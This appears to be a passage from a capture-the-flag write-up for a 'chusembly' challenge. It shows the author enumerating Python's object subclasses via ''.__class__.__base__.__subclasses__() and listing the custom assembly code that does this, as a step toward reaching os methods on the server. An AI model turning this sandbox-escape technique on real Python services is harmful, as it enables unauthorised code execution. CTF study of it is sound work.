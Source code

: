 **But for website we are getting an error**
![output error image on website](output-local.png)

### Fixing the error

The error is caused because of list of os methods would be different on the server and we need to get the value of i an j accordingly 🥀

so for that first I got output of
`''.__class__.__base__.__subclasses__()`

chusembly code:

```
LD D 0x612063
PROP split D
DEL A
DEL B
CALL E
PROP __class__ E
MOV E C
DEL E
DEL D

LD D 0x55
PROP __class__ D
PROP __base__ E
PROP __subclasses__ E
DEL A
DEL B
```